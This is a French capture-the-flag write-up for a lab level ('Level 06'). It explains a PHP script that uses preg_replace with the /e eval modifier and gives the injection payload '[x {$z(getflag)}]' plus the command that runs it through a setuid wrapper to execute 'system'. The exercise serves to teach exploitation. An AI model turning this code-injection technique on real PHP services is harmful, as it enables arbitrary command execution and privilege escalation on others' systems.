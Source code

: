 # Level 06
Home:
```
$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

L'exécutable level06 sert juste à lancer /bin/php avec les bonnes permissions et prend deux paramètre optionel.

Mais le plus interresant est le fichier level06.php qui nous montre une petite faille de sécurité à cause d'eval sur la ligne 11 (flag `/e`).
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
/*
Ligne 3-7 : La fonction y($m) est définie. Elle prend un paramètre $m qui est une chaîne de caractères. À l'intérieur de la fonction, deux appels à la fonction preg_replace sont effectués. Le premier appel remplace tous les points (.) par la chaîne de caractères " x ", et le deuxième appel remplace tous les caractères "@" par le caractère "y". Ensuite, la fonction retourne la valeur de $m modifiée.

Ligne 9-15 : La fonction x($y, $z) est définie. Elle prend deux paramètres, $y et $z. À l'intérieur de la fonction, le contenu du fichier spécifié par $y est lu à l'aide de la fonction file_get_contents et stocké dans la variable $a. Ensuite, plusieurs appels à la fonction preg_replace sont effectués pour modifier le contenu de $a. Le premier appel utilise une expression régulière pour rechercher des occurrences de "[x quelque_chose]" et les remplace par le résultat de l'appel à la fonction y("quelque_chose"). Les autres appels à preg_replace remplacent simplement les crochets "[" et "]" par des parenthèses "(" et ")". Enfin, la fonction retourne la valeur modifiée de $a.
*/
?>

```

Selon le doc des [String interpolation](https://wiki.php.net/rfc/deprecate_dollar_brace_string_interpolation), elle nous dit qu'on peut exécuter des fonctions que contiennent une variable.</Br>
Donc on a supposé qu'on pouvait exécuter n'importe quelle fonction contenue dans le variable `z` de la fonction `x`.

Voici le premier argument qu'on donne à l'exécutable `[x {$z(getflag)}]`, celle-ci récupère le contenu de `z` et exécute la avec comme argument `getflag` et comme deuxième argument la fonction qu'on veut `system`.

*La commande finale a exécuté:*
```sh
echo '[x {$z(getflag)}]' > /tmp/exploit; ./level06 /tmp/exploit 'system'
```
```
$ ./level06 /tmp/exploit system
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : xxx
```
